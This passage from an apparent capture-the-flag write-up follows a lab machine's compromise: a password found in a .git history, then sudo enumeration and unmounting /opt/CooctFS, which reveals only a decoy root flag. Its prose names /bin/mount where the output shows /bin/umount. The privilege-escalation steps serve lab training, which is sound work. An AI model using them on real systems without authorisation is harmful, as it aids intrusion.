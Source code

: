 
There is a .git directory in the cooctOS_src directory, where we can enumerate information about the repo.

```git show``` gives us the following output which contains another password ```redacted```

![script](script.png)

___

## Varg's Flag

![varg](varg_flag.png)
___

# Get full root privileges
> _Hint: To mount or not to mount. That is the question._

Checking varg's sudo privileges reveals ```/bin/mount``` can be run as root with no password. I checked https://gtfobins.github.io/# to see if there was a quick win but that was a dead end. Checking ```/etc/fstab``` is another option to see if there are any mounted partitions.

```sh
varg@cchq:~$ sudo -l
Matching Defaults entries for varg on cchq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User varg may run the following commands on cchq:
    (root) NOPASSWD: /bin/umount
```

![fstab](fstab.png)

___

This seems rather odd but let's unmount the /opt/CooctFS share and see what happens. After unmounting the share there is a root directory which contains ```root.txt``` but it's a troll flag.

```sh
varg@cchq:~$ sudo umount /opt/CooctFS
varg@cchq:~$ ls -la /opt/CooctFS/
total 12
drwxr-xr-x 3 root root 4096 Feb 20  2021 .
drwxr-xr-x 3 root root 4096 Feb 20  2021 ..
drwxr-xr-x 5 root root 4096 Feb 20  2021 root
varg@cchq:~$ cd /opt/CooctFS/root
varg@cchq:/opt/CooctFS/root$ ls
root.txt
varg@cchq:/opt/CooctFS/root$ cat root.txt
hmmm...
No flag here. You aren't root yet.
varg@cchq:/opt/CooctFS/root$ 
```
